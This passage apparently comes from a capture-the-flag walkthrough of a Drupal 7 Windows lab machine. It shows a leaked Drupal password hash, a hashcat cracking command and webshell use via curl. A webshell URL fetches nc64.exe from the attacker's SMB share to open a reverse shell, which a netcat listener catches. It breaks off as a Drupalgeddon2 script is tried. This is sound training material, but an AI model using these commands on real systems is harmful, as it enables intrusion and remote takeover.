             "homepage": {
                "predicates": [
                    "foaf:page"
                ],
                "type": "rel"
            }
        },
        "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
    }
    

I can identify that hash as [Drupal
7](https://hashcat.net/wiki/doku.php?id=example_hashes), and try to break it:

    
    
    $ hashcat -m 7900 admin.hash /usr/share/wordlists/rockyou.txt -o admin.cracked --force
    

However, that was going to take about three days on my system, and I don’t
really need the password at this point.

Most useful, I have a webshell:

    
    
    root@kali# curl http://10.10.10.9/0xdf.php?cmd=whoami
    nt authority\iusr
    

#### Shell - nc

I’ll use `smbserver` to share a copy of `nc64.exe`, and use that to get a
shell by visiting
`http://10.10.10.9/0xdf.php?cmd=\\10.10.14.14\share\nc64.exe%20-e%20cmd.exe%2010.10.14.14%20443`

    
    
    root@kali# rlwrap nc -lnvp 443                  
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443                     
    Ncat: Listening on 0.0.0.0:443                   
    Ncat: Connection from 10.10.10.9.               
    Ncat: Connection from 10.10.10.9:63660.                        
    Microsoft Windows [Version 6.1.7600]                
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
                                                  
    C:\inetpub\drupal-7.54>
    

### Drupalgeddon2

#### Python Script - Fail

One of the options for Drupalgeddon2 is a python script, so I started with
that. I’ll use `-m` to get a copy of the script in, `searchsploit -m
exploits/php/webapps/44448.py`. The script was a bit of a pain to get to run,
but when I put in `'http://10.10.10.9/'`, it returns not vulnerable:

    